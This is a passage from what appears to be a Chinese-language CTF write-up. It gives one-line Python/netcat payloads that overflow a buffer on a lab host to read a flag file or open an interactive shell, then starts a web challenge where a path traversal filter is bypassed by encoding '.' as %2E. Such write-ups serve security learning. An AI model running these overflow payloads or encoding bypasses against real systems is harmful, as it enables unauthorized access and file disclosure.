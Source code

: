 ! 9/24 更新，其實用簡單的一行 Script 就可以搞定了：

```zsh
# 直接取得 Flag
python3 -c "import sys; sys.stdout.buffer.write(b'a'*40+b'\xdd\x11\x40\x00\x00\x00\x00\x00\ncat /home/arch_check/flag\n')" | nc up.zoolab.org 30001

# Interactive Mode
cat <(python3 -c "import sys; sys.stdout.buffer.write(b'a'*40+b'\xdd\x11\x40\x00\x00\x00\x00\x00\n')") - | nc up.zoolab.org 30001

# Python 2
cat <(python -c "print 'a'*40 + '\xdd\x11\x40\x00\x00\x00\x00\x00'") - | nc up.zoolab.org 30001
```

## Web - text2emoji

[網址](http://splitline.tw:5000/)一進去的畫面如下：

![](./text2emoji/img/Screen%20Shot%202021-09-20%20at%205.54.56%20PM.png)

基本功能就是輸入 emoji 的 text 名稱後系統會吐出 emoji。User control 的 api 是 `/public_api`，payload 格式是 JSON `text: "cat"`。

從提供的 Source Code 來看，這是一個用 express 寫的簡單後端伺服器，**分為 Public 以及 Private Server**，運作方式是 public_api 取得 text 後，**把這個 text 濾掉 `.` 後直接當作 private server 的 url 去取資料**。這個 path traversal 防禦基本上等於沒做，因為 `.` 有別的 encode 方式（最有名的就是 `%2E`）就可以直接 bypass 掉了。
